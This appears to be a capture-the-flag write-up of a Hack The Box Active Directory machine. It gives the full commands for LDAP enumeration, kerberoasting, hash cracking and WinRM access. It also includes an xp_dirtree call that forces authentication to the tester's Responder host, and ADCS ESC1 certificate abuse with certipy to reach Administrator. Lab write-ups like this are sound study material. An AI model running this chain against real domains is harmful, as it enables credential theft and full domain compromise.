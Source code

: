 ___
## Network recon
```bash
sudo nmap -T4 -A -v -o nmap --min-rate 1000 10.129.229.25 -Pn
```

Multi-protocol recon
```bash
enum4linux-ng -A 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619205012.png)

We have anonymous LDAP access
## LDAP Enumeration
Get users:
```bash
ldapsearch -x -b "DC=certified,DC=htb" -s sub "(&(objectclass=user))" -H ldap://10.129.229.25 | grep -i samaccountname: | cut -f 2 -d " " > users.txt
```
Validate users:
```bash
kerbrute userenum -d certified.htb --dc 10.129.229.25 users.txt
```
![](../../assets/Pasted%20image%2020250619151753.png)
All users but guest are valid + all users require preauth for tickets requests. 
Getting users descriptions
```bash
nxc ldap 10.129.229.25 -u '' -p '' -M get-desc-users
```
We get a password
![](../../assets/Pasted%20image%2020250619151934.png)
## Lateral Movement to MSSQLSERVER
Lets check for users with SPNs set
```bash
ldapsearch -x -b "DC=certified,DC=htb" -s sub "(&(objectClass=user)(servicePrincipalName=*))" -H ldap://10.129.229.25 | grep -i samaccountname: | cut -f 2 -d " "
```
![](../../assets/Pasted%20image%2020250619152420.png)
user is kerberoastable! 
```bash
impacket-GetUserSPNs -dc-ip 10.129.229.25 certified.htb/ldapusr:'ldapisfun' -request-user MSSQLSERVER
```
![](../../assets/Pasted%20image%2020250619153206.png)
Try to crack the hash
```bash
hashcat -m 13100 mssqlserver.hash /usr/share/wordlists/rockyou.txt
```
![](../../assets/Pasted%20image%2020250619153349.png)
```
MSSQLSERVER:lucky7
```
## MSSQL Enumeration
```
nxc mssql 10.129.229.25 -u 'MSSQLSERVER' -p 'lucky7' -q 'SELECT name FROM master.dbo.sysdatabases;'
```
![](../../assets/Pasted%20image%2020250619154454.png)
```bash
impacket-mssqlclient MSSQLSERVER:'lucky7'@10.129.229.25 -windows-auth
```

We enumerate stored procedures and tables, we find out we can't run `xp_cmdshell` to get RCE. We can run `xp_dirtree` for force auth.
Start responder:
```bash
sudo responder -I tun0
```
Trigger auth:
```sql
xp_dirtree \\10.10.14.4\test
```
![](../../assets/Pasted%20image%2020250619160138.png)
Lets try to crack the NTLMv2 hash
```bash
hashcat -m 5600 thomas.hash /usr/share/wordlists/rockyou.txt
```
![](../../assets/Pasted%20image%2020250619160436.png)
```
thomas:159357
```
we have access with winrm
```bash
nxc winrm 10.129.229.25 -u thomas -p '159357'
```
![](../../assets/Pasted%20image%2020250619160709.png)
```bash
evil-winrm -i 10.129.229.25 -u thomas -p '159357'
```
after grabbing the user flag and poking around, i decided to run bloodhound
```bash
sudo bloodhound-ce-python -u 'thomas' -p '159357' -ns 10.129.229.25 -d certified.htb -c all
```
![](../../assets/Pasted%20image%2020250619165504.png)
We see `thomas` has inherited access to the `CERTIFICATE SERVICE DCOM ACCESS` group. This makes me think the priv esc is an ADCS misconfiguration
![](../../assets/Pasted%20image%2020250619165619.png)
## Administrator
---
Use certipy to find vulnerable templates
```bash
certipy-ad find -vulnerable -u thomas -p '159357' -dc-ip 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619171052.png)
We see this template is vulnerable to ESC1
![](../../assets/Pasted%20image%2020250619171221.png)
Lets collect what we need for ESC1: Template name, CA, target domain.
![](../../assets/Pasted%20image%2020250619171545.png)

we can build our pfx request targeting the administrator user
```bash
certipy-ad req -u thomas -p '159357' -dc-ip 10.129.229.25 -template Auth -upn Administrator@certified.htb -ca CERTIFIED-CA -target certified.certified.htb
```
![](../../assets/Pasted%20image%2020250619171857.png)
We can either use the pfx directly with nxc:
```bash
nxc smb 10.129.229.25 --pfx-cert administrator.pfx -u 'Administrator'
```
![](../../assets/Pasted%20image%2020250619173218.png)
OR use `certipy auth` to get a TGS and NTLM hash
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.25
```
![](../../assets/Pasted%20image%2020250619173236.png)
and use that to auth.